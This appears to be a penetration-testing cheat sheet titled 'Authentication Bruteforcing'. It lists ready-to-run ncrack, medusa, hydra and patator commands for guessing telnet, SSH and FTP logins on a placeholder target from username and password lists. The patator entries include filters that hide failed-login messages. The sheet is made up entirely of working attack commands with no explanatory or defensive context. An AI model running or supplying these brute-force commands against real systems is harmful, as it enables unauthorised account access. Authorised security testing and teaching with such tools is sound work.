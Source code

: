 ## Authentication Bruteforcing

** ncrack **
```bash
ncrack -U usernames.txt -P passwords.txt $IP -p telnet
ncrack -U usernames.txt -P passwords.txt $IP -p ssh
ncrack -U usernames.txt -P passwords.txt $IP -p ftp
```

** medusa **
```bash
medusa -h $IP -M telnet -U usernames.txt -P passwords.txt
medusa -h $IP -M ssh -U usernames.txt -P passwords.txt
medusa -h $IP -M ftp -U usernames.txt -P passwords.txt
```

** hydra **
```bash
hydra -L usernames.txt -P passwords.txt telnet://$IP
hydra -L usernames.txt -P passwords.txt ssh://$IP
hydra -L usernames.txt -P passwords.txt ftp://$IP
```

** patator **
```bash
patator ftp_login host=$IP user=FILE0 password=FILE1 0=usernames.txt 1=passwords.txt -x ignore:mesg:"Login incorrect."

patator ssh_login host=$IP user=FILE0 password=FILE1 0=usernames.txt 1=passwords.txt -x ignore:mesg:"Authentication failed."
```